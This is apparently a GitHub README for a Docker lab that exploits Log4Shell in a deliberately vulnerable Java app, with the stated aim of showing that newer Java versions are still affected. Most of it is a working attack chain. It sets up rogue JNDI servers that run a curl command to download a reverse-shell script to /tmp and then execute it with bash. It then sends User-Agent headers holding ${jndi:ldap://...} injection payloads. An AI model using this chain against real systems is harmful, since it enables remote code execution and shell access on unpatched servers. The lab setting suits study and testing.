

# fun with log4shell and docker

This repo to proof exploitation in latest java version exist too !
Please do not rely on your java version to be safe and upgrade neo4j package !

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## play 
- one terminal : launch the vulnerable app : ./start_vuln_server.sh
- other terminal :
  - find ip of the vulnerable APP : `sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' container_name_or_id`
  - the host ip is from the container perspective. It will be the .1, if the container ip is 172.28.0.2, the ip to give is 172.28.0.1
  - launch the exploit : `./exploit.sh <host_ip>` 
	- launch a rogue server https://github.com/veracode-research/rogue-jndi with --command "curl -q http://ip:port/reverse.sh -o /tmp/reverse_shell.sh" to download the reverse
        - launch an http server to download the reverse shell 
	- launch another rogue server to start the reverse shell execution https://github.com/veracode-research/rogue-jndi with --command "bash /tmp/reverse_shell.sh"
	- (i don't know yet why chaining multiple commands in only one rogue server don't work)

- other terminal trig the exploit : `curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<ip>:4445/o=tomcat}' && sleep 1 && curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<ip>:4446/o=tomcat}''

